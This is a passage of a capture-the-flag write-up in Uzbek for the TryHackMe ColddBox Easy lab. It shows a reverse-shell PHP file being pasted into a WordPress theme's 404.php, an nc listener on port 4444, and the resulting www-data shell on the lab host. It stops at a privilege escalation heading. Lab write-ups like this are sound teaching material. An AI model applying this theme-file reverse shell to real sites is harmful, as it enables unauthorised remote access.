 ![](https://raw.githubusercontent.com/akhatkulov/Write-Ups/refs/heads/main/TryHackme/Pictures/colddboxeasy_3.jpg)

Reverse shellni joylab "Update FIle" tugmasini bosamiz va o'zgartirgan faylimizga so'rov yuboramiz.

Reverse shell: https://github.com/akhatkulov/HackBox/blob/main/reverse-shell.php

Xabar yuborish uchun link: http://10.10.109.191/wp-content/themes/twentyfifteen/404.php

Natija:

```

╭─mete    ~
╰─ ❯❯ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.109.191 54858
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:23:17 up 35 min,  0 users,  load average: 1.33, 0.82, 0.48
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$

```

## Privilage Escalation
